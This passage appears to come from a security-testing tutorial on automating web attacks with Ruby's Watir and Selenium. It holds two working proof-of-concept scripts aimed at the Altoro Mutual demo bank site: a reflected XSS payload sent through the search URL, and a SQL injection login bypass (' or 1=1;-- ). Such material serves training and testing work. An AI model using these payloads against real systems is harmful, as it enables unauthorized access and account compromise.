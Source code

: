 ```ruby
```

Sometime you'll need to send XSS GET request from URL like `http://app/search?q=<script>alert</script>`. You'll face a known error `Selenium::WebDriver::Error::UnhandledAlertError: Unexpected modal dialog` if the alert box popped up but it you do refresh page for the sent payload it'll work so the fix for this issue is the following.

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
wait = Selenium::WebDriver::Wait.new(:timeout => 15)

begin
    browser.goto("http://www.altoromutual.com/search.aspx?txtSearch=<img src=x onerror=alert(1)>")
rescue Selenium::WebDriver::Error::UnhandledAlertError
    browser.refresh
    wait.until {browser.alert.exists?}
end

if browser.alert.exists?
  browser.alert.ok
  puts "[+] Exploit found!"
  browser.close
end
```

### POST Request

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click

# browser.close
```

> * Since Waiter is integrated with Selenium, you can use both to achieve one goal
> * For Some reason in some log-in cases, you may need to add a delay time between entering username and password then submit.
